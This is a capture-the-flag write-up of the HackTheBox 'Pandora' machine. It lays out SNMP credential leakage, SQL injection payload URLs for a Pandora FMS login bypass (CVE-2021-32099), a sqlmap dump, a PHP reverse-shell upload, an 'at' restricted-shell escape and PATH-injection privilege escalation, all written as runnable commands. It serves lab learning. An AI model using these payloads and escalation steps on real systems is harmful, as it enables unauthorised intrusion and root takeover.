




# Pandora

## Recon

### nmap Result

```
# nmap -sS -sC -sV -A -p- --min-rate 5000 10.10.11.156
```

- DNS: set the host name to /etc/hosts 
### snmpwalk 

- Sensitive Information Disclosure


```
user : daniel
password: HotelBabylon23
```

#### The tips from [ippsec video](https://www.youtube.com/watch?v=vSnB0AZDvjM&list=PLidcsTyj9JXJfpkDrttTdk1MNT6CDwVZF)

1. snmpwalk ```snmpwalk -c public -v2c 10.10.11.136```
2. snmp-mibs-downloader
    - Install by ```sudo apt install snmp-mibs-downloader```
    - Edit config ``` sudo vim /etc/snmp/snmp.conf```
    - Comment the ```mib :$```
3. snmpbulkwalk : faster than snmpwalk 
``` snmpbulkwalk -Cr1000 -c public -v2c 10.10.11.136 . > snmpwalk.1 ``` 

4. Do it twice 
``` snmpbulkwalk -Cr1000 -c public -v2c 10.10.11.136 . > snmpwalk.2 ```
5. Command to analysis file 
    - ```wc -l ``` 
    - ```grep -oP '"::.*?\.' snmpwalk.1 |sort | uniq -c | sort -n 
    - ```grep hrSWRun``` (find ```-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabtlon23')
    - ```grep hrSWRun | grep 1134``` (sample in his video)

6. snmpenum (the other method)
```snmpenum 10.10.11.136 public```
```locate snmpenum```
```snmpenum 10.10.11.136 public linux.txt```


## Exploit

- ssh login with above credential 


- Permission Deny 

There is nothing in daniel directory,
but in ```/home``` have another directory named matt(it might another user), and there is a user flag in it.
Try to read it, but access deny...


### Permission Escalate to other user

- Check the following

1. sudo -L
2. id 
3. /var/www/
4. netstat -anlp

- From step 3. and step 4, I find another web service:
    1. There are 2 directory under the /var/www, one is ```/html``` the other is ```/pandora```.
    

    2. For the content in ```/html```, I think that is the one we can browse from external.(```pandora.htb```)
    3. But the other one make me curious, since if the ```pandora.htb``` or ``` 10.10.11.136:80 ``` will access to the page under ```/html```, then I think there must be another port will point to ```/pandora```.
    4. Then, from netstat result, I also find there is a port 80 only established internally.
    

    5. Using curl to access it, yap, I found the page which might include in /pandora.
    

    6. For confirming this web site, I moved into ```/pandora```, and there was a ```index.html``` which has same content as the result by curl command.
    

    7. Besides that, I found many file under ```/pandora_console```. 
    8. Until now, I could make sure there is a web page which doesn't expose to external, but with ssh session, it's hard to view this page.
    9. After some research, I found a way called **ssh_port_forwarding**, it can let me forward the internal port to the port in my host.
    
```
# ssh -L 80:127.0.0.1:80 daniel@10.10.11.136
```


- After forward the port to host, using browser to check the pandora_console page
- It need a credential to login, I tried the following, but none of them success to login : 
    1. admin / admin
    2. daniel / HotelBabylon23


- Then I tried to gather other information like, version.
- Version : v7.0NG.742_FIX_PERL2020


### Exploit Information Gathering (CVE)

- Using this version to find vulnerability:
    1. SQL Injection (pre authentication) (CVE-2021-32099)
    2. Phar deserialization (pre authentication) (CVE-2021-32098)
    3. Remote File Inclusion (lowest privileged user) (CVE-2021-32100)
    4. authenticated Remote Code Execution (CVE-2019-20224)

- The first I tried is SQLi vulnerability
- Here is some payload:
    1. ```http://127.0.0.1:8888/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO```
    2. ```http://localhost:8000/pandora_console/include/chart_generator.php?session_id=PayloadHere%27%20union%20select%20%271%27,%272%27,%27id_usuario|s:5:%22admin%22;%27%20--%20a```
    3. ```http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271```


- Besides the payload, I also find that it might better to use sqlmap to dump the table.
- so the attack entry point is on ```http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=1```
- the session_id value doesn't implement appropriate filter which allow attacker to do SQLi

- [CVE-2021-32099 SQLi Bypass login](https://github.com/l3eol3eo/CVE-2021-32099_SQLi)


### Exploit by SQLi(sqlmap)

- So, I tried the sqlmap as follow:
```
# sqlmap -u 'http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=1' --dbms=mysql --batch --dump > /home/kali/Desktop/HTB/pandora/sqli.txt
```


- Result as below 


- Here is a session_php table, 1st column is session_id, 2nd one is data, 3rd one is last_active, then we can try the following:
    1. Try to copy the session_id value and use that to access the ```/pandora_console``` index page and so on
    2. In Data Column, the user credential will be store like ```id_usuario|s:5:"admin";```, before ```|``` part seems a user id column name in DB, and after```|``` part is the value with serialize format.


- According to the payload and the analysis article, if I use the payload on Browser
```
https://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:4:%22admin%22;%27%20--%20a
```


- Access ```/pandora_console/index.php``` again
- I could bypass login and access the dashboard with **admin** permission


- Admin permission's sidebar will look like 

- Compare with normal user (ex. user matt)


- With admin user, there is a 'Admin tools' -> 'File manager'


- 3 functions in here 
    1. Create directory
    2. Create text
    3. Upload file(s)


- The way I want to try first is upload a php web shell.
- [(Github)php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)


- After uploading, I have to find where the file actual locate.


- I choose first directory (**backgrounds**), and observe the URL, it shows that the ```directory=image/backgrounds```
- So, I think it might have a image directory.


- Access it from browser 




- Set nc on port 4444



- Access the reverse shell 


- cat user flag 
```
# dd4ffb57d47a049281b54fb9104f9e3a
```


## Privilege Escalation

After I got user flag, I know the user is matt who still is normal user.
So, I still have to escalate the privilege to root.

First, let's make the shell screen beautiful.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


### Travel directory in victim 
- In ```/pandora_console```, I had ever tried to use daniel account read ```config.php```, but failed.
- Now I change to matt account, then try it again.
- The ```config.php``` include mysql credential for pandora site.


- So, I also try to access DB by mysql command, but nothing I can find in there.


### Gathering Information by tools

- Using ```sudo -l ``` to list the command which current user can execute and can't 
( -l 列出目前使用者可執行與無法執行的指令)
- But it failed by permission issue,** it might caused by the environment is a restriction environment.** (maybe is restrict by Apache2- site_enables setting)

- So, we might need to escape the environment or just escalate the privilege.

- Upload some tool from attack host
    1. ```LinEnum.sh```
    2. ```linux-exploit-suggestor.sh(I changed the name to LinExploit.sh)```

- The result from ```LinExploit.sh```

    - Basic Information
    
    
    - Possible Exploit CVE
    
    
    
    
    
- LinEnum Result

    - System information
    
    
    
    - USER / GROUP
    
    
    - Environment 
    
    - Path Information 
    
    - Available Shell
    
    - Password and storage information
    
    - Network
    
    
    - Service(Running Process) 
    
    
    
    
    
    
    

    - Process binaries and associate permission
    
    

    - Interesting files 
    


    - SUID file
    

    - SGID file
    
    
    - File with POSIX capabilities set
    

- For those result, I will focus on 
    1. Execute with root
    2. SUID & SGID file

- With above information, in SUID file, ```/pandora_backup``` is one of the special file and I think it's used for backup the pandora website
- other file seems the default command file in Linux
- From writeup and [GTFObins](https://gtfobins.github.io/gtfobins/at/#sudo), I know the ```/usr/bin/at``` is a file we can escape the restict environment.

```
# echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

- After execute it, the ```sudo -l ``` command give me a different response
- I think the restriction environment has successfully been escaped.

 
- Then I also use the following command to confirm the SUID file again.

```
find / -perm -u=s -type f 2>/dev/null
```


- After esacpe from restrict environment, I can use ```sudo ``` command, but without the password, I still can't access root directory.
- So, I start to focus on another interesting file ```pandora_backup```
- Try to execute ```pandora_backup``` first

```
# /usr/bin/pandora_backup
```
- If I haven't escape the restriction environment, the result will like follow 


- The result show that the backup file will excute tar to compress the backup 

### Path Injection 
- After I esacpe from the restrict environment, the file can execute normally and compress with tar


- Create fake tar in ```/tmp```
```
cd /tmp
echo "/bin/bash" > tar
cat tar
chmod 777 tar

```


- Change the path value in environment, and let the tar file in ```/tmp``` be executed

```
export PATH=/tmp:$PATH
echo $PATH
```


- Execute the ```pandora_backup``` again

```
/usr/bin/pandora_backup
```


- Get root shell
- Get root flag
```
cat root/root.txt
# 9d403a19c4c0206ce76833bbce0634c0
```


#### Escape from restrict environment ref from IppSec method 

1. Analysis the pandora_backup file with reverseing it.
    - The main func as follow 


2. We can find the ```setreuid``` method will re-set suid
3. I think that's the reason why I saw the error message when executing ```sudo -l ```


4. With above code, when I execute the self create tar file after path injection, it will failed to execute ```/bin/bash``` (Time Code: ```52:24```)
5. And the analysis I should do is find out what's the parent process that trigger the tar file after I set up path injection. command : ```ps -ef ```
6. And with trace the parent process, I know the root process might apace2, let's check the ```site-enabled ``` file 


7. ```AssignUserID``` might be the root casue to resetuid back to matt.
8. The method in here to escape is create ssh connection for matt from attack machine.
    - In victim ``` mkdir .ssh```
    - In attack ``` ssh-keygen -f matt```
    - In victim, download public key from attack
    - In victim ```mv matt.pub authorized_keys```
    - In attack ```chmod 600 matt```
    - In attack ``` ssh -i matt matt@10.10.11.136```
    - In ssh to victim do path injection, then execute pandora_backup then user id will become root
    

## Reference 

### Write up 

- [Write up 1](https://brainful.blog/2022/01/19/enumeration-2/)
- [Write up 2](https://blog.peterjbrowning.com/2022/01/htb-writeup-pandora)
- [Write up 3](https://blog.peterjbrowning.com/2022/01/htb-writeup-pandora)
- [Write up video 1](https://www.youtube.com/watch?v=vSnB0AZDvjM) (AWESOME)
- [Write up video 2](https://www.youtube.com/watch?v=31WDSggZB1Y)
- 

### Exploit CVE

- [Pandora FMS 742: Critical Code Vulnerabilities Explained](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/)
- [(CVE Detail)CVE-2021-32099](https://www.cvedetails.com/cve/CVE-2021-32099/)

- [(Not use in this time)PandoraFMS v7.0NG authenticated Remote Code Execution (CVE-2019-20224)](https://shells.systems/pandorafms-v7-0ng-authenticated-remote-code-execution-cve-2019-20224/)


#### Payload

- [(Github)PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- [(pentestmonkey)PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
- [(Github)CVE-2021-32099 SOLi analysis](https://github.com/l3eol3eo/CVE-2021-32099_SQLi)
- [(Github)CVE-2021-32099 Payload 1 ](https://github.com/ibnuuby/CVE-2021-32099)
- [(Github)CVE-2021-32099 Payload 2 ](https://github.com/zjicmDarkWing/CVE-2021-32099)
- [(sploitus) Payload 1](https://sploitus.com/exploit?id=100B9151-5B50-532E-BF69-74864F32DB02)
- [(sploitus) Payload 2](https://sploitus.com/exploit?id=64F47C34-B920-525E-80F3-B416C84DA936&utm_source=rss&utm_medium=rss#modals)
- [(GTFObin) at exploit](https://gtfobins.github.io/gtfobins/at/#sudo)
- [(Github)CVE-2021-32099 Payload 3](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py)

### Linux 


- [How to Set up SSH Tunneling (Port Forwarding)](https://linuxize.com/post/how-to-setup-ssh-tunneling/)
```
# ssh -L [LOCAL_IP:]LOCAL_PORT:DESTINATION:DESTINATION_PORT [USER@]SSH_SERVER
```


- [ACCESSING YOUR SERVER APPLICATION WITH SSH PORT FORWARDING](https://blog.ronin.cloud/port-forwarding-with-ssh/)

- [FIND command](https://blog.gtwang.org/linux/unix-linux-find-command-examples/)


- [at command](http://www.happystreet.com.tw/index.php/system-dynamic-teaching/unix-linux/418-a-day-of-school-a-unix-command-at)

```
在一個指定的時間執行一個指定任務，只能執行一次，且需要開啟atd進程（ps -ef | grep atd查看， 開啟用/etc/init.d/atd start or restart； 開機即啟動則需要運行 chkconfig --level 2345 atd on）
```


- [sudo command-1](https://www.wikiwand.com/zh-tw/Sudo)

- [SUID/SGID](https://dywang.csie.cyut.edu.tw/dywang/linuxsecurity/node39.html)
```
Set UID (SUID)；設置使文件在執行階段具有文件所有者的權限。
所以在做提權時,會找有root 權限的檔案會去看 SUID 的部分是否為 root
```


- [LINUX 提權](https://www.hacking8.com/MiscSecNotes/linux-priv.html)


###### tags: `HackTheBox` `linux`